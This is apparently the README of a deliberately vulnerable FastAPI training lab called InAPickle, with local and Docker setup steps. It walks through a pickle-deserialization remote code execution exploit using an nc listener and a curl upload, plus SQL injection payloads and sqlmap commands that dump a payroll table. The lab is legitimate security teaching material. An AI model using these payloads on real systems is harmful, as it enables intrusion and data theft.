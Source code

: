 # InAPickle

## Requirements

Local Build:

- Python 3

- Python virtualenv

    ```bash
    python3 -m pip install --user virtualenv
    ```

Docker Build:

- Docker

## Install and Start FastAPI Locally

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Start virtual environment:

    ```bash
    python3 -m virtualenv .venv
    . .venv/bin/activate
    ```

3. Install pip packages:

    ```bash
    pip install -r requirements.txt
    ```

4. Start FastAPI with uvicorn:

    ```bash
    uvicorn main:app --reload
    ```

5. App should now be reachable at http://localhost:8000.

## Install and Start FastAPI with Docker

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Build docker image:

    ```bash
    docker build -t inapickle .
    ```

3. Start inapickle container:

    ```bash
    docker run -it --rm -p 8000:8000 --name inapickle inapickle
    ```

## Clues that this is exploitable

1. The Pickle icon...

2. The `/docs` page can be found usin `dirb` with the default wordlist (`common.txt`).

3. The `/docs` page is auto-generated and contains descriptions of methods and schemas. This explains that the backup/restore file is pickled Python data.

## Exploit

1. Edit the command you wish to run on the victim server (line 6 in poc.py):

    ```bash
    vim inapickle/poc.py
    ```

2. Run PoC script (generates inapickle/payload.txt):

    ```bash
    python3 inapickle/poc.py
    ```

3. (Optional) Set up listener. For example:

    ```bash
    nc -nlvp 4444
    ```

4. Perform remote code execution:

    ```bash
    curl -L -F 'file=@inapickle/payload.txt' localhost:8000/restore-sqlite
    ```

## BONUS Exploit - SQL Injection

### sqlmap Approach

1. List database tables:

    ```bash
    sqlmap -u http://localhost:8000/read-contact \
      --data='{"first_name":"doesnt","last_name":"matter"}' \
      -p first_name --batch --tables
    ```

2. Dump payroll table:

    ```bash
    sqlmap -u http://localhost:8000/read-contact \
      --data='{"first_name":"doesnt","last_name":"matter"}' \
      -p first_name --batch -T payroll --dump
    ```

### Manual Approach

1. Discover another sensitive table in the database:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT * FROM sqlite_schema WHERE type = \'table\';--","last_name":""}'
    ```

2. Dump payroll table:

    ```bash
    curl -XPOST 'http://localhost:8000/read-contact' \
      -H 'Content-Type: application/json' \
      --data-raw $'{"first_name":"\' or 1=1 UNION SELECT *,1 FROM payroll;--","last_name":""}'
    ```
